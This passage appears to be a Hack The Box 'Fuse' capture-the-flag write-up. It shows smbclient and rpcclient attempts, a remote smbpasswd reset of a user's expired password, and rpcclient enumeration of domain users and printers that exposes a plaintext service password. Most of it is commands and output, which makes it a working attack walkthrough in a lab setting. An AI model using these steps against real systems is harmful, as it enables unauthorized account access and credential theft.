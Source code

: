     SMBCLIENT:
    root@nidus:/git/htb/fuse# smbclient -L 10.10.10.193 -U bnielson
      session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
    root@nidus:/git/htb/fuse# smbclient -L 10.10.10.193 -U tlavel
      session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
    root@nidus:/git/htb/fuse# smbclient -L 10.10.10.193 -U bhult
      session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE

    RPCCLIENT:
    root@nidus:/git/htb/fuse# rpcclient -U bnielson 10.10.10.193
      Cannot connect to server.  Error was NT_STATUS_PASSWORD_MUST_CHANGE
    root@nidus:/git/htb/fuse# rpcclient -U tlavel 10.10.10.193
      Cannot connect to server.  Error was NT_STATUS_PASSWORD_MUST_CHANGE
    root@nidus:/git/htb/fuse# rpcclient -U bhult 10.10.10.193
      Cannot connect to server.  Error was NT_STATUS_PASSWORD_MUST_CHANGE

    Evil-WinRM - Nope.
    Impacket-secretsdump - Nope, not possible that either..

    After a lot of enumeration and random attempts to find something, I finally managed to move on by changing the user password
    with smbpasswd. The password change is very brief and rolled back after about a minute, so you have to be quick enumerating
    once changed.

      root@nidus:/git/htb/fuse# smbpasswd -r 10.10.10.193 -U bnielson
        Old SMB password:
        New SMB password:
        Retype new SMB password:
        Password changed for user bnielson on 10.10.10.193.

    At first I went through SMB, there are some shares but nothing of use, so I went back to RPCCLIENT.
    We are able to extract more data, and a hidden password in the printer description (!!)

      rpcclient $> enumdomusers
        user:[Administrator] rid:[0x1f4]
        user:[Guest] rid:[0x1f5]
        user:[krbtgt] rid:[0x1f6]
        user:[DefaultAccount] rid:[0x1f7]
        user:[svc-print] rid:[0x450]
        user:[bnielson] rid:[0x451]
        user:[sthompson] rid:[0x641]
        user:[tlavel] rid:[0x642]
        user:[pmerton] rid:[0x643]
        user:[svc-scan] rid:[0x645]
        user:[bhult] rid:[0x1bbd]
        user:[dandrews] rid:[0x1bbe]
        user:[mberbatov] rid:[0x1db1]
        user:[astein] rid:[0x1db2]
        user:[dmuir] rid:[0x1db3]

      rpcclient $> enumprinters
      	flags:[0x800000]
      	name:[\\10.10.10.193\HP-MFT01]
      	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
      	comment:[]
